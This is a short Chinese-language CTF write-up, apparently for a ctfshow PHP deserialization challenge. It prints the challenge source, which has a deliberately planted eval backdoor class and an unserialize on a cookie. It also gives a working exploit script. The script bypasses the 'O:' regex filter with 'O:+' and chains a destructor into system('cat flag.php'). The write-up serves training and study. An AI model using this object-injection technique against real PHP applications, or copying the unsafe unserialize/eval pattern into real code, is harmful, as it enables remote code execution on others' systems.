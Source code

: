 ```php
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

对形如`O:8`进行了过滤，我们可以在数字前加上加号绕过 

执行一下php代码，并通过cookie传参

```php
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
    public $class = 'backDoor';

    public function __construct(){
        $this->class=new backDoor();
    }

    public function __destruct(){
        $this->class->getInfo();
    }

}

class backDoor{
    public $code="system('cat flag.php');";
    public function getInfo(){
        eval($this->code);
    }
}


$a = new ctfShowUser();
$a = serialize($a);
$a= str_replace('O:', 'O:+',$a);//绕过preg_match
echo urlencode($a);
```
